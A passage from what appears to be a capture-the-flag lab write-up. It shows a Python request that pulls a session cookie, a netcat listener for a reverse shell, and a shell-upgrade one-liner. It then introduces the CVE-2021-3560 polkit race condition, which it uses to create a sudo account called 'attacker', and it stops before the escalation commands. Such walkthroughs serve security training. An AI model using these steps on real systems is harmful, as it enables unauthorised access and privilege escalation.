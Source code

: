 ```
#Request
time.sleep(1)
print(requests.get("http://localhost:9000/").cookies.get("session"))
```

**Kali**

```
nc lvnp 443
```

**Kali(poc-venv)**

```
python poc3.py
```

Copy the cookie into the browser again and shortly you should receive a connection to your netcat listener.&#x20;

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

Get autocomplete

**Victim**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

CVE-2021-3560 is, fortunately, a very easy vulnerability to exploit if the conditions are right. The vuln is effectively a race condition in the policy toolkit authentication system.

There is already a TryHackMe room which covers this vulnerability in much more depth [here](https://tryhackme.com/room/polkit), so please complete that before continuing if you haven't already done so as we will not cover the "behind the scenes" of the vuln in nearly as much depth here.

Effectively, we need to send a custom dbus message to the accounts-daemon, and kill it approximately halfway through execution (after it gets received by polkit, but before polkit has a chance to verify that it's legitimate -- or, not, in this case).

We will be trying to create a new account called "attacker" with sudo privileges. Before we do so, let's check to see if an account with this name already exists:

**Victim**
